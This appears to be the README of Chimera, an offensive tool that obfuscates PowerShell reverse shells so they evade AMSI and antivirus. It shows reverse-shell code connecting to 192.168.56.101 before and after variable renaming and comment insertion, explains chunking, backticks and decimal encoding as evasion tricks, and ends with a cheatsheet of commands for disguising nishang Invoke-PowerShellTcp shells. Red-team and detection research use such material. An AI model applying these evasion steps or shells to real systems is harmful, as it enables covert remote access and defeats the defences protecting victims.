







<!--  -->

## Basic Usage

```
./chimera.sh --help
```

Use `-a` to enable all (most) of the switches. Use `--level 1` or `--level 2` to increase the degree of obfuscation, e.g., variable character length. With AMSI, level 1 or 2 is fine. With AV, level 3 or 4 is sometimes required for 0 detections.
```
./chimera.sh -f shells/generic1.ps1 -l 1 -a -o /tmp/chimera.ps1
```

## -v | --variables

Detected variables like `$encoding` and `$writer` are substituted with random strings.
```bash
./chimera.sh -f shells/generic1.ps1 -l 1 -v -o /tmp/chimera.ps1
```

Before
```powershell
$socket = new-object System.Net.Sockets.TcpClient('192.168.56.101', 80);
if($socket -eq $null){exit 1}
$stream = $socket.GetStream();
$writer = new-object System.IO.StreamWriter($stream);
$buffer = new-object System.Byte[] 1024;
$encoding = new-object System.Text.AsciiEncoding;
do
{
        $writer.Flush();
        $read = $null;
```

After
```powershell
$NshdSZejLllNFtYAkqBVNEfvGLOfNQnnpWSLDmrZrbHF = new-object System.Net.Sockets.TcpClient('192.168.56.101', 80);
if($NshdSZejLllNFtYAkqBVNEfvGLOfNQnnpWSLDmrZrbHF -eq $null){exit 1}
$zcucJezOMlDOdsRVAqGzuxFtULFMX = $NshdSZejLllNFtYAkqBVNEfvGLOfNQnnpWSLDmrZrbHF.GetStream();
$kfoGkxTqbGLlNVdGHcgsIIYrlpzmboYINwdBZvLu = new-object System.IO.StreamWriter($zcucJezOMlDOdsRVAqGzuxFtULFMX);
$ALfUtVwVjOipaARrZeHMZnKIzDpwmxwtnmCZtKUSP = new-object System.Byte[] 1024;
$ZheljJvouMZFfnWaBzvBcXQIqiIduRJZLdUuikF = new-object System.Text.AsciiEncoding;
do
{
        $kfoGkxTqbGLlNVdGHcgsIIYrlpzmboYINwdBZvLu.Flush();
        $read = $null;
```

Provide `-v` with a list of words (one word per line) to substitute variables with random selections from the file.
```bash
./chimera.sh -f shells/generic1.ps1 -l 1 -v /usr/share/dict/american-english -o /tmp/chimera.ps1
```

|Default|Custom|
|:-:|:-:|
|||

## -t | --typedata

Data types like `System.Net.Sockets.TcpClient` often trigger AMSI and AV. Use `-t` to separate the strings into chunks.

```bash
./chimera.sh -f shells/generic1.ps1 -l 2 -t -o /tmp/chimera.ps1
```


## -c | --comments

While it doesn't make a huge difference with detection rates, comments will occasionally trigger AV/VT. By default, Chimera will only replace existing comments found in the source file with gibberish. If no comments exist, use `-i` to insert comments into every line.

```bash
./chimera.sh -f shells/generic1.ps1 -l 1 -i -c -o /tmp/chimera.ps1
```

Provide `-c` with a file (e.g., [the synopsis to Orwell's "1984"](https://www.sparknotes.com/lit/1984/summary/)) and it will insert a sentence into every line.

```bash
./chimera.sh -f shells/generic1.ps1 -l 1 -i -c /tmp/orwell-1984.txt -o /tmp/chimera.ps1
```

```powershell
# Winston Smith is a low-ranking member of the ruling Party in London, in the nation of Oceania.
$socket = new-object System.Net.Sockets.TcpClient('192.168.56.101', 80);
# Everywhere Winston goes, even his own home, the Party watches him through telescreens; everywhere he looks he sees the face of the Party’s seemingly omniscient leader, a figure known only as Big Brother.
if($socket -eq $null){exit 1}
# The Party controls everything in Oceania, even the people’s history and language.
$stream = $socket.GetStream();
# Currently, the Party is forcing the implementation of an invented language called Newspeak, which attempts to prevent political rebellion by eliminating all words related to it.
$writer = new-object System.IO.StreamWriter($stream);
# Even thinking rebellious thoughts is illegal.
$buffer = new-object System.Byte[] 1024;
```

|Default|Custom|
|:-:|:-:|
|||

## -b | --backticks and -k | --keyword

Inserting backticks into strings is a common obfuscation trick. Couple `-b` with `-t` to further obfuscate the chunks.

The `-k` switch will sometimes report strings like "new-object" and "getstream" that may trigger AV. The `generic2.ps1` provides an example of this. Notice `new-object` and `getstream` are highlighted in red. Use `-b new-object,invoke-expression -s getstream` to backtick and substitute the strings, respectively. Some strings can't be backticked, others can't be substituted (it helps to know a little PowerShell here). Generally, try obfuscating a string with `-s`. If that breaks the script, try `-t` or `-b`. Also, `-k` will only make _recommendations_. The highlighted strings aren't guaranteed to trigger AV. To learn _exactly_ what's triggering AMSI, see [AMSITrigger](https://github.com/RythmStick/AMSITrigger).

|Backticks|Strings Detected|Custom|
|:-:|:-:|:-:|
||||

## -d | --decimal and -r | --random

Converting the payload to decimal format usually increased the likeliness of evading AMSI. It simultaneously increased the detection of antivirus scanners. Use `-d` as needed.

The `-r` option will randomize the character punctuations and is automatically applied with `-d`. While character randomization does almost nothing to bypass AMSI, it helps when combined with other switches.

Bug: Randomization occasionally causes scripts to break. It's an anomaly that I haven't tried to resolve as it happens rarely. Always test payloads in a local lab before use, especially with `-r`.



## Examples (cheatsheet)

Chimera isn't perfect. It doesn't have obfuscation down to an exact science like some [other noteworthy projects](https://github.com/tokyoneon/Chimera#resources). Sometimes, applying too many switches will break a script (I'm looking at you, `--prepend`).

Below are some usage examples.
```bash
# "cmd.exe" isn't a data type but when wrapped in double-quotes, this works
# https://www.sparknotes.com/lit/harrypotter/section1/
./chimera.sh -f shells/generic1.ps1 -l 2 -o /tmp/chimera.ps1 -v -t cmd.exe -c /tmp/harry_potter.txt -i -h -s getstream -b new-object -j -g -k -r -p

./chimera.sh -f shells/generic2.ps1 -l 1 -o /tmp/chimera.ps1 -v -t -c -i -h -s excePTIon.InneRexcePTIon.message,getstream -b invoke-expression,new-object -j -g -k -r -p

./chimera.sh -f shells/generic3.ps1 -l 1 -o /tmp/chimera.ps1 -v -t -c -i -h -s equals,split,getstream -b new-object -j -g -k -r -p

# short strings like `-s pwd` are prone to breaking scrips
./chimera.sh -f shells/powershell_reverse_shell.ps1 -l 2 -o /tmp/chimera.ps1 -v -t -c -i -h -s getstream,close,pwd,ascii,write -b iex,out-string,new-object -j -g -k -r -p

# nishang scripts
./chimera.sh -f shells/Invoke-PowerShellTcp.ps1 -l 3 -o /tmp/chimera.ps1 -v -t powershell,windows,copyright -c -i -h -s length,get-location,ascii,stop,close,getstream -b new-object,reverse,invoke-expression,out-string,write-error -j -g -k -r -p
./chimera.sh -f shells/Invoke-PowerShellTcpOneLine.ps1 -l 2 -o /tmp/chimera.ps1 -v -t -c -i -h -s getstream,read -b while,new-object,iex -j -g -k -r -p
```
